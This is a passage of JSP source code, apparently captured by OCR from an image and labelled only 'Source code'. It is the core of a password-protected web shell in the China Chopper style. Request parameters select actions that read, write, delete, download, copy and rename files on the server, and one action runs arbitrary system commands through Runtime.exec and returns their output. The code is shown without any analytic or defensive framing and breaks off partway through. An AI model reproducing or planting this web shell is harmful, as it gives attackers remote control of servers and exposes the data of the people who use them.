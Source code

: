 ```
%>
<%
	cs = request.getParameter("z0") != null ? request.getParameter("z0")+ "":cs;
	response.setContentType("text/html");
	response.setCharacterEncoding(cs);
	StringBuffer sb = new StringBuffer("");
	try {
		String Z = EC(request.getParameter(Pwd) + "");
		String z1 = EC(request.getParameter("z1") + "");
		String z2 = EC(request.getParameter("z2") + "");
		sb.append("->" + "|");
		String s = request.getSession().getServletContext().getRealPath("/");
		if (Z.equals("A")) {
			sb.append(s + "\t");
			if (!s.substring(0, 1).equals("/")) {
				AA(sb);
			}
		} else if (Z.equals("B")) {
			BB(z1, sb);
		} else if (Z.equals("C")) {
			String l = "";
			BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));
			while ((l = br.readLine()) != null) {
				sb.append(l + "\r\n");
			}
			br.close();
		} else if (Z.equals("D")) {
			BufferedWriter bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));
			bw.write(z2);
			bw.close();
			sb.append("1");
		} else if (Z.equals("E")) {
			EE(z1);
			sb.append("1");
		} else if (Z.equals("F")) {
			FF(z1, response);
		} else if (Z.equals("G")) {
			GG(z1, z2);
			sb.append("1");
		} else if (Z.equals("H")) {
			HH(z1, z2);
			sb.append("1");
		} else if (Z.equals("I")) {
			II(z1, z2);
			sb.append("1");
		} else if (Z.equals("J")) {
			JJ(z1);
			sb.append("1");
		} else if (Z.equals("K")) {
			KK(z1, z2);
			sb.append("1");
		} else if (Z.equals("L")) {
			LL(z1, z2);
			sb.append("1");
		} else if (Z.equals("M")) {
			String[] c = { z1.substring(2), z1.substring(0, 2), z2 };
			Process p = Runtime.getRuntime().exec(c);
			MM(p.getInputStream(), sb);
			MM(p.getErrorStream(), sb);
		} else if (Z.equals("N")) {
			NN(z1, sb);
```